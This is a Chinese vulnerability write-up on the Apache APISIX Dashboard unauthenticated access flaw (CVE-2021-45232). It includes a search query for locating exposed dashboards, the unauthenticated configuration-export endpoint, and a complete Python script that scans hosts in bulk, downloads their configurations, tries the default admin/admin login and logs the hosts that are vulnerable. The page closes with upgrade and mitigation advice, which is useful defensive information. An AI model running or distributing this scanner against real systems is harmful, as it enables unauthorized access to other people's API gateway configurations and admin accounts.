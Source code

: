 ```yaml
---
title: apisix未授权访问（CVE-2021-45232）
---
```


# apisix未授权访问（CVE-2021-45232）

## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

Apache APISIX 是一个动态、实时、高性能的 API 网关， 提供负载均衡、动态上游、灰度发布、服务熔断、身份认证、可观测性等丰富的流量管理功能。Apache APISIX Dashboard 使用户可通过前端界面操作 Apache APISIX。该漏洞的存在是由于 Manager API 中的错误。Manager API 在 gin 框架的基础上引入了 droplet 框架，所有的 API 和鉴权中间件都是基于 droplet 框架开发的。但是有些 API 直接使用了框架 gin 的接口，从而绕过身份验证。

## 风险等级

高危

## 影响版本

Apache APISIX Dashboard < 2.10.1

## 资产确定

```
title="Apache APISIX Dashboard"
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-1.jpg)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-2.png)

## 漏洞检测

**POC** 

```
host + /apisix/admin/migrate/export
```

验证，成功读取文件

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-4.jpg)

访问该地址可直接下载配置文件

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-3.png)

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/CVE-2021-45232-6.png)

**检测脚本**

https://github.com/Ifory885/CVE-2021-45232

```python
import argparse
import sys

import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'}


def banner():
    print(r"""
  _______      ________    ___   ___ ___  __        _  _   _____ ___  ____ ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \/_ |      | || | | ____|__ \|___ \__ \ 
| |     \ \  / /| |__ ______ ) | | | | ) || |______| || |_| |__    ) | __) | ) |
| |      \ \/ / |  __|______/ /| | | |/ / | |______|__   _|___ \  / / |__ < / / 
| |____   \  /  | |____    / /_| |_| / /_ | |         | |  ___) |/ /_ ___) / /_ 
 \_____|   \/   |______|  |____|\___/____||_|         |_| |____/|____|____/____|

 																                                               by:Ifory""")


def parse_args():
    parser = argparse.ArgumentParser(
        epilog='\tExample: \r\npython3 ' + sys.argv[0] + ' -u 127.0.0.1:9000')
    parser.add_argument("-u", "--url", type=str,
                        required=False, default=None, help="待检测URL")
    parser.add_argument("-f", "--file", type=str,
                        required=False, default=None, help="批量导入检测")
    return parser.parse_args()


def handle_url(host):
    if 'http' not in host:
        host = 'http://' + host
    return host


def poc(host):
    url = host + '/apisix/admin/migrate/export'
    try:
        respose = requests.get(url, headers=headers, verify=False, timeout=5)
        if "Counsumers" in respose.text:
            print(f"[+]{host} vul!")
            with open("vul.txt", "a", encoding="utf-8") as f:
                f.write(f"{url}\n")
        else:
            print(f"[-]{host} no vul!")
        return True
    except:
        print(f"[-]{host} 页面无法访问")
        return False


def login(host):
    url = host + '/apisix/admin/user/login'
    json = {"username": "admin", "password": "admin"}
    try:
        respose = requests.post(url, headers=headers,
                                json=json, verify=False, timeout=5)
        if '"code":0' in respose.text:
            print(f"[+]{host} default password!")
            with open("vul_login.txt", "a", encoding="utf-8") as f:
                f.write(f"{host}\n")
        else:
            print(f"[-]{host} no default password!")
    except:
        print(f"[-]{host} 页面无法访问")


if __name__ == '__main__':
    banner()
    args = parse_args()
    if args.url:
        host = handle_url(args.url)
        if poc(host):
            login(host)
    else:
        if args.file:
            with open(f"{args.file}", "r", encoding="utf-8") as put:
                for url in put.readlines():
                    host = url.strip()
                    host = handle_url(host)
                    if poc(host):
                        login(host)
```

## 修复方案

目前官方已发布修复版本修复了该漏洞，请受影响的用户升级到安全版本：

https://github.com/apache/apisix-dashboard/releases/tag/v2.10.1

若无法及时升级的用户，可根据官方提供的修复建议通过修改默认用户名和密码，并设置访问Apache APISIX Dashboard的白名单进行缓解。
